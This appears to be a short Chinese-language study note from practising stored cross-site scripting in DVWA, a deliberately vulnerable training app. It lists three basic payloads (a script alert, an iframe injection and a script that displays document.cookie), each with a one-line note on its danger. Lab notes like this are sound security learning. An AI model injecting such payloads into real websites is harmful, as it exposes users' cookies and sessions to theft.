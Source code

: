 ```yaml
---
title: dvwa笔记
tags: [Web漏洞]
categories: [网络安全]
date: 2016-02-04 22:05:18
---
```



## 存储型XSS
### 1. 基本的xss

``` html
<script>alert("hello")</script>
```

危害: 攻击者可以轻松的以中间人身份捕获 cookie/session。 

![](https://ws4.sinaimg.cn/large/006tNc79gy1fvo6y49op2g30y90ijapt.gif)

<!-- more -->

### 2. iframe xss

``` html
<iframe src="http://www.baidu.com></iframe>
```

危害：攻击者可以在其中嵌入自己的恶意网页

![](https://ws2.sinaimg.cn/large/006tNc79gy1fvo6y4wczyj30e507rwew.jpg)



### 3. cookie xss

``` html
<script>alert(document.cookie);</script>
```

危害：获取cookie等重要信息
![Paste_Image.png](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6y5sttej30dw06rjs0.jpg)